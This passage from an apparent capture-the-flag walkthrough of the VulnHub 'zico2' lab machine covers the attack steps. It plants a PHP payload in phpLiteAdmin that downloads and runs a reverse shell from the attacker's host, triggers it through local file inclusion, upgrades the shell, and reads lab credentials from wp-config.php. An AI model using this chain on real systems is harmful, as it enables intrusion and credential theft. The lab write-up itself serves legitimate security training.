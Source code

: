 2. To serve our `shell.php` file:
   ```bash
   python3 -m http.server 80
   ```

### Step 3: Exploiting phpLiteAdmin

In phpLiteAdmin, we create a new database named `hack.php` with a table named `test`. We add a field with the following content:

```php
<?php system("wget 192.168.56.107/shell.php -O /tmp/shell.php; php /tmp/shell.php"); ?>
```

This code, when executed, will download our `shell.php` file and run it, establishing the reverse shell connection.

### Step 4: Triggering the Exploit

We trigger the exploit by accessing our malicious database file through the LFI vulnerability:

```
curl "http://192.168.56.106/view.php?page=../../../../../usr/databases/hack.php"
```

This should result in a shell connection on our `nc` listener:

```bash
┌──(kali㉿kali)-[~/vulnhub/zico2]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.56.107] from (UNKNOWN) [192.168.56.106] 45484
/bin/sh: 0: can't access tty; job control turned off
$ 
```

## Privilege Escalation

### Upgrading the Shell

We upgrade our basic shell to a more functional one:

```bash
python -c 'import pty;pty.spawn("/bin/bash")';
```

### Enumerating the System

While exploring the file system, we discover a `wp-config.php` file in `/home/zico/wordpress` containing credentials:

```
zico:sWfCsfJSPV9H3AmQzw8
```

### Logging in as Zico
